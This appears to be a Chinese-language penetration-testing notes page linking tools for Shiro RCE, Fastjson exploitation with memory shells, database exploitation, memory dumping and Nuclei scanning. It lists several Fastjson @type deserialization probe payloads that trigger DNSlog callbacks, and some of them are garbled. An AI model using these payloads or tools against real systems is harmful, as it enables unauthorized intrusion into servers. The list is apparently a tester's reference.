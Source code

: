 ## 内存分析
https://github.com/whwlsfb/JDumpSpider


## RCE
### shiro
https://github.com/SummerSec/ShiroAttack2

## Shell
## Burp 拓展
### Fastjson_EXP
[amaz1ngday/fastjson-exp: fastjson利用，支持tomcat、spring回显，哥斯拉内存马；回显利用链为dhcp、ibatis、c3p0。 (github.com)](https://github.com/amaz1ngday/fastjson-exp)

-  `{"@type":"java.net.Inet4Address","val":"dnslog"}`
-  `{"@type":"java.net.Inet6Address","val":"dnslog"}`
-  `{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}`
-  `{{"@type":"java.net.URL","val":"[http://dnslog"}:0](http://dnslog"}`
-  `{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"[http://dnslog"}}""}`
-  `Set[{"@type":"java.net.URL","val":"http://dnslog"}]`

## DATABASE
### MDUT
[SafeGroceryStore/MDUT: MDUT - Multiple Database Utilization Tools (github.com)](https://github.com/SafeGroceryStore/MDUT)

## Scan
### Nuclei
[projectdiscovery/nuclei: Fast and customizable vulnerability scanner based on simple YAML based DSL. (github.com)](https://github.com/projectdiscovery/nuclei)